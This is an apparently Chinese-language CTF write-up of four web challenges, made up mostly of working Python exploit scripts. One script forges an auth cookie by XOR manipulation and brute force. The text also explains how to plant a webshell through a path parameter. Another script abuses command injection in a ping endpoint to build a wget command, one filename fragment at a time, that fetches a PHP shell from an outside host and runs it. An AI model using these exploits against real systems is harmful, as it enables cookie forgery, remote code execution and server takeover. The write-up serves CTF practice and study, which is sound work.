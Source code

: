 # trick 1
考察全局变量GLOBALS

# trick 2
简单的加密
分析一下可以知道我们获得了guest的加密内容以及随机值但不知道key值，而且我们要伪造system加密值

这里system 与 guest只差一个字符所以要爆破一下最后一个字符

```
import requests
import urllib
s = "guest"
s = "".join([chr(ord(i)+10) for i in s])
mid = "BH^IO"
mid = "".join([chr(ord(s[i])^ord(mid[i])) for i in range(5)])
print mid
s1 = "system"
# print s1[-1:]
s1 = "".join([chr(ord(i)+10) for i in s1])
last = s1[-1:]
dic = "1234567890abcdef"
ls = "".join([chr(ord(last)^ord(i)) for i in dic])
print ls

demo = "".join([chr(ord(s1[i])^ord(mid[i])) for i in range(5)])
for i in ls:
    print i
    user = ("WgEG"+demo+i).encode("base64")
    # print 
    cookie = {
    "user":urllib.quote(user)
        }
    re = requests.get("http://127.0.0.1/var/trick%202.php",cookies=cookie)
    print re.content

```

# trick 3
一道简单的代码审计，很明显是要种马

那我们可以随意输入的地方就是path参数
因为我们的输入都能打印出来

path是写入的路径 URL是获取的文件的路径 打印的是写入的路径 所以我们一次是是写不出shell的
首先将此文件写出去 然后利用path特性种马即可

# trick 4
这道题目本地复现的时候出现了很多问题，post传参方式不同也会影响结果
```
#!/usr/bin/python
# -*- coding: utf-8 -*-
import requests
def GetShell():
    s=requests.session()
    url = "http://192.168.43.165/ping.php"
    url1 = "http://192.168.60.128/web200-3/src/"
    header = {
        "Content-Type":"application/x-www-form-urlencoded"
    }
    data1={'username':'a','password[]':'a'}
    # s.post(url1,data=data1,headers=header)
    '''
    wget\\
    \ 19\\
    2.\\
    16\\
    8.\\
    60.\\
    12\\
    8\ \\
    1.php\ \\
    -O\ \\
    2.php
    '''
    fileNames = ["2.php", "-O\ \\\\", "1.php\ \\","8\ \\\\", "12\\\\", "60.\\\\", "8.\\\\", "16\\\\","2.\\\\", "\ 19\\\\", "wget\\\\"]
   # 多出的\只是为了充填，无论几个\都是一样的作用
    ip = "0.0.0.1%0a"
    for fileName in fileNames:
        createFileIp = ip + ">" + fileName
        print createFileIp
        data = "ip=" + createFileIp#这里不知道为什么普通的传参不行
        s.post(url, data=data,headers=header,)
    getShIp = ip + "ls%20-t>1"  #新生成的文件输入进1中
    print getShIp
    data = "ip=" + getShIp
    s.post(url, data=data,headers=header)
    getShellIp = ip + "sh%201" # 执行1这个脚本
    print getShellIp
    data = "ip=" + getShellIp
    s.post(url, data=data,headers=header)
if __name__ == "__main__":
    GetShell()
```